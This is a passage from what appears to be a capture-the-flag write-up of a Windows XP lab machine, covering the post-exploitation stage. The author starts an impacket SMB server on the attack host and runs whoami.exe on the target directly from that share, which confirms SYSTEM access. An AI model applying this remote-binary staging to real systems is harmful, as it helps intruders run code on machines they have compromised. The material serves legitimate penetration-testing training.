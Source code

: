 And we have a shell! As what user?

```powershell
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Ooh, that is more challenging than I expected! Luckely enough I know the perfect solution, after all the SMB we've done today:

```bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe
```

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py kaas /usr/share/windows-binaries/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Then on the Windows XP system:

```powershell
C:\WINDOWS\system32> \\10.10.14.17\kaas\whoami.exe
```

Back over by the `smbserver.py`:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py kaas /usr/share/windows-binaries/
#...
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.10.4,1040)
[*] Remaining connections []
```

And then the result:

```powershell
C:\WINDOWS\system32> \\10.10.14.17\kaas\whoami.exe
NT AUTHORITY\SYSTEM
```

We are root! And we did that over SMB!

### Manual monster-task concluded

Now that we managed to become `SYSTEM` without Metasploit, I think we deserve a real applause! Let's get the flags and take our well-earned break:
